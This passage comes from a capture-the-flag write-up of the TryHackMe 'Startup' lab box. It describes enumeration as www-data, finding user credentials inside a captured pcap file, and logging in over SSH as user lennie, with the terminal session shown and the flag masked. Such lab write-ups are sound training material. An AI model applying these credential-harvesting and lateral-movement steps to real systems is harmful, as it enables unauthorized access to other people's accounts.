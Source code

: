 4. Let's now do some manual and automatic enumeration.
	1. The user we get in as `www-data`. Let's look into the `/home` directory. We can't get in.
	2. We do get some odd files in the root directory. [recipe.txt](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/recipe.txt) seems interesting. There are other interesting folders as well.
		1. `/vagrant` --> 
		2. `/incidents` --> contains a suspicious pcap file that might contain interesting data. Let's explore that.
	3. There is no shell for the other user's to log into.
	4. Weirdly, we can't even get into the web root as it is owned by `root`. Everything about this box is weird.
	5. Check out the linpeas script [here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/tmp/linpeas.out) for more.


## PIVOT TO USER

1. On exploring the [pcap file](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/incidents/suspicious.pcapng), we find a possible creds for user `lennie` as shown [here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/incidents/lennie.txt). We might be able to use this and get on the system as lennie. And what do we know, user got lazy. Again !!. User flag is ours.

```bash
l└─$ ssh lennie@10.10.218.234
The authenticity of host '10.10.218.234 (10.10.218.234)' can't be established.
ED25519 key fingerprint is SHA256:v4Yk83aT8xnOB+pdfmlLuJY1ztw/bXsFd1cl/xV07xY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:27: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.218.234' (ED25519) to the list of known hosts.
lennie@10.10.218.234's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ bash
lennie@startup:~$ whoami
lennie
lennie@startup:~$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Nov 11 11:03 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Nov 11 11:03 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cat user.txt 
*****************************
```
